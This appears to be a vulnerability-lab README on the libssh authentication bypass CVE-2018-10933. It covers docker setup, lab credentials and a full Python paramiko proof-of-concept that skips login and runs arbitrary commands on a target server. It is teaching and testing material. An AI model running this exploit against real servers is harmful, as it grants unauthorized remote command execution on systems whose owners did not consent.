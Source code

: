 # libssh Authentication Bypass Vulnerability(CVE-2018-10933)


libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side. A logic vulnerability was found in libssh's server-side state machine. The attacker can send the `MSG_USERAUTH_SUCCESS` message before the authentication succeed. That can bypass the authentication and access the target SSH server.

References:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## Setup

Start the environment:

```
docker compose up -d
```

After the environment is started, we can connect the `your-ip:2222` port (account password: `myuser:mypassword`), which is a legal ssh login:

![](1.png)

## Exploit

Referring to the POC given in https://www.seebug.org/vuldb/ssvid-97614, we can use the following script to proof the vulnerability.

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

You can execute arbitrary commands on the target server like following:

![](2.png)